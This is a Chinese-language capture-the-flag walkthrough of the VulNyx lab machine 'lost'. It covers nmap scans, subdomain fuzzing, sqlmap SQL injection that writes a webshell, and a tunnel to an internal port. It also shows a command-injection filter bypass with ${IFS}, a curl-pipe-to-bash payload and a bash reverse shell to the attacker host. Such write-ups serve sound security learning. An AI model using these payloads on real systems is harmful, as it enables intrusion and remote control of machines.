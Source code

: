 # 信息收集

## tcp开放端口探测
```
# Nmap 7.94SVN scan initiated Mon Jun  3 00:25:31 2024 as: nmap -v --min-rate 10000 -p- -oA tcp_open_port 192.168.43.175
Nmap scan report for 192.168.43.175
Host is up (0.0039s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 00:0C:29:34:2A:DD (VMware)

Read data files from: /usr/bin/../share/nmap
# Nmap done at Mon Jun  3 00:25:33 2024 -- 1 IP address (1 host up) scanned in 2.12 seconds

```

## udp开放端口探测
```

# Nmap 7.94SVN scan initiated Mon Jun  3 00:25:33 2024 as: nmap -sU --min-rate 10000 -p- -oA udp_open_port 192.168.43.175
Warning: 192.168.43.175 giving up on port because retransmission cap hit (10).
Nmap scan report for 192.168.43.175
Host is up (0.019s latency).
All 65535 scanned ports on 192.168.43.175 are in ignored states.
Not shown: 65457 open|filtered udp ports (no-response), 78 closed udp ports (port-unreach)
MAC Address: 00:0C:29:34:2A:DD (VMware)

# Nmap done at Mon Jun  3 00:26:46 2024 -- 1 IP address (1 host up) scanned in 72.96 seconds

```

## tcp开放端口服务探测
```
# Nmap 7.94SVN scan initiated Mon Jun  3 00:25:31 2024 as: nmap -v --min-rate 10000 -p- -oA tcp_open_port 192.168.43.175
Nmap scan report for 192.168.43.175
Host is up (0.0039s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 00:0C:29:34:2A:DD (VMware)

Read data files from: /usr/bin/../share/nmap
# Nmap done at Mon Jun  3 00:25:33 2024 -- 1 IP address (1 host up) scanned in 2.12 seconds

```
## tcp开放服务的漏洞脚本扫描
```
# Nmap 7.94SVN scan initiated Mon Jun  3 00:26:55 2024 as: nmap --script=vuln -p22,80, -oA vuln_scan 192.168.43.175
Nmap scan report for lost.nyx (192.168.43.175)
Host is up (0.00025s latency).

PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
MAC Address: 00:0C:29:34:2A:DD (VMware)

# Nmap done at Mon Jun  3 00:27:27 2024 -- 1 IP address (1 host up) scanned in 31.51 seconds

```
	靶机开放22和80端口，22端口需要凭据才能登录，因此先对80端口进行渗透测试
	
# Getshell
浏览器访问靶机，ctrl+u查看源码，在末尾发现提示
![](photo/Pasted%20image%2020240603035232.png)
vulnyx靶机域名结构一般为靶机名+nyx，根据提示进行域名爆破
```
wfuzz -u http://lost.nyx/ -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -H "Host: FUZZ.lost.nyx" --hh 819
```
![](photo/Pasted%20image%2020240603035306.png)
将dev.lost.nyx添加到/etc/hosts文件中
浏览器访问新域名，一个个点开导航页签，PASSANGER LIST页面发下提示在URL中注入参数名"id"
http://dev.lost.nyx/passengers.php
![](photo/Pasted%20image%2020240603040033.png)
访问：
```
http://dev.lost.nyx/passengers.php?id=1
http://dev.lost.nyx/passengers.php?id=1' --报sql语句错误
```
将刚刚的请求保存到文件中，使用sqlmap：
```
sqlmap -r sqlinject.req --batch --risk=3 --level=5 --dbms=mysql  --current-user
--查看当前连接数据库的用户
sqlmap -r sqlinject.req --batch --risk=3 --level=5 --dbms=mysql  -privileges -U root
--查看root用户权限
sqlmap -r sqlinject.req --batch --risk=3 --level=5 --dbms=mysql  --os-shell 
--尝试网网站根目录写入webshell，在这个靶机中直接成功
```
将shell迁移到kali中
![](photo/Pasted%20image%2020240603041103.png)
# 提权
前台测试时发现网站与数据库存在交互，因此找出数据库配置文件凭据
```
cat passengers.php|grep dbuser -i
```
![](photo/Pasted%20image%2020240603041502.png)
尝试进行密码喷洒，失败。
将linpeas.sh传到靶机上，自动枚举信息，发现当前机器在127.0.0.1监听3000端口，因此尝试进行探测。先使用chisel建立隧道
```
靶机
./chisel server -p 3001

kali
./chisel client 192.168.43.175:3001 3000:127.0.0.1:3000
```
然后kali访问http://127.0.0.1:3000/
页面提供检测ip存活功能，经典的命令注入场景。对特殊字节进行模糊测试;当输入空格时报检测到恶意输入,可以使用${IFS}进行bypass,然后还发现\$()字符可用，因此构造以下句子访问kali进行反弹shell

```
$(curl${IFS}192.168.43.128|bash)
```
kali将反弹shell语句写入index.html文件
```
echo 'bash -c "bash -i >& /dev/tcp/192.168.43.128/9001 0>&1"' > index.html
```
开启web服务器功能
```
python3 -m http.server 80
```
并另起会话进行端口监听
```
nc -lvnp 9001
```
浏览器输入构造命令，kali收到反弹shell！新用户为jackshephard，执行命令
```
id
uid=1000(jackshephard) gid=1000(jackshephard) groups=1000(jackshephard),111(lxd)
```
发现在lxd组中，可以尝试lxd组提权，具体参考这位大佬的笔记
```
(https://blog.csdn.net/YouthBelief/article/details/123548739)
```
![](photo/Pasted%20image%2020240604044331.png)

